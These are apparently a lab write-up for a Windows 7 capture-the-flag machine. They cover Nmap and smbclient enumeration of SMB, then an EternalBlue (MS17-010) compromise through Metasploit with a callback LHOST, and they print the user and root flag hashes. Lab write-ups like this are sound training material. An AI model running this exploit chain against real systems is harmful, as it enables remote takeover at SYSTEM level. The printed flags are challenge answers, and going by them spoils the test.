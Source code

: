 #eternal-blue #smb #windows7
#### Nmap

```bash
sudo nmap -A -p- 10.10.10.40 
```

![Pasted image 20240401113929](Images/Pasted%20image%2020240401113929.png)
![Pasted image 20240401114006](Images/Pasted%20image%2020240401114006.png)
#### Port 445 (SMB)

```bash
smbclient --no-pass -L //10.10.10.40
```

![Pasted image 20240401121720](Images/Pasted%20image%2020240401121720.png)

```bash
sudo nmap --script smb-* -p 445 10.10.10.40
```

![Pasted image 20240401123227](Images/Pasted%20image%2020240401123227.png)

```bash
sudo nmap --script smb-protocols -p 445 10.10.10.40
```

![Pasted image 20240401123924](Images/Pasted%20image%2020240401123924.png)

>[!success] Victim appears vulnerable to the EternalBlue exploit.
### Local Exploit
#### Metasploit

```bash
msfconsole -q
search eternal
use 1
```

![Pasted image 20240401125829](Images/Pasted%20image%2020240401125829.png)

```bash
options
set RHOSTS 10.10.10.40
set LHOST 10.10.14.12
run
```

![Pasted image 20240401125854](Images/Pasted%20image%2020240401125854.png)

>[!success] user.txt
>`dc32b7bfefa8ae6f1d1fc594c9133e80`
>
![Pasted image 20240401130008](Images/Pasted%20image%2020240401130008.png)

>[!success] root.txt
>We were `nt authority\system` so could also access the Administrator's desktop.
>`aac84c29ac1b9a3b466c54e780ca8b93`
>
>![Pasted image 20240403043445](Images/Pasted%20image%2020240403043445.png)
#### Manual

https://github.com/worawit/MS17-010